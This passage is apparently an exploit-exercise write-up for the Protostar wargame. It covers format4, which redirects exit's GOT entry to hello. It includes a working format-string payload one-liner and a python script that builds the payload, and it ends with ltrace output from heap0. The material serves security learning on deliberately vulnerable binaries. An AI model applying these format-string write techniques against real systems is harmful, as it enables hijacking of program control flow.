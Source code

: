 ```
08049724 R_386_JUMP_SLOT   exit
```

From `objdump -d -M intel`: Memory address of hello is `0x080484b4`

Overwrite the offset with the dynamic relocation records with the memory address of hello

From: https://sh3llc0d3r.com/protostar-exploit-exercises-format4/
```
 python -c 'print"\x24\x97\x04\x08\x26\x97\x04\x08%33964d%4$n%33616d%5$n"' | /opt/protostar/bin/format4
```

Python Script Code Breakdown
```
debug = False

part1 = 0x84b4 # Lower bits
part2 = 0x0804 + 0x10000 # Upper bits + 0x10000 (Overload)
offset = 5

payload = "AAAA"
payload += "\x24\x97\x04\x08" # address1
payload += "\x26\x97\x04\x08" # address2

diff1 = part1-len(payload)
if debug:print(diff1)


payload += "%" + str(diff1) + "d" # Calculate the remaining length
payload += "%"+str(offset)+"$n" # write1

diff2 = part2-(len(payload)-len("%" + str(diff1) + "d" + "%"+str(offset)+"$n")+diff1)
if debug: print(diff2)

payload += "%" + str(diff2) + "d" # padding2
payload += "%"+str(offset+1)+"$n" # +1 (for extra 1 dword)

print(payload)
```

## heap0

You can use ltrace to get the return values of `malloc(...)`
```
$ ltrace ./heap0
__libc_start_main(0x804848c, 1, 0xbffff894, 0x8048520, 0x8048510 <unfinished ...>
malloc(64)                                                                          = 0x0804a008
malloc(4)                                                                           = 0x0804a050
printf("data is at %p, fp is at %p\n", 0x804a008, 0x804a050data is at 0x804a008, fp is at 0x804a050
)                        = 41
strcpy(0x0804a008, NULL <unfinished ...>
--- SIGSEGV (Segmentation fault) ---
+++ killed by SIGSEGV +++
```
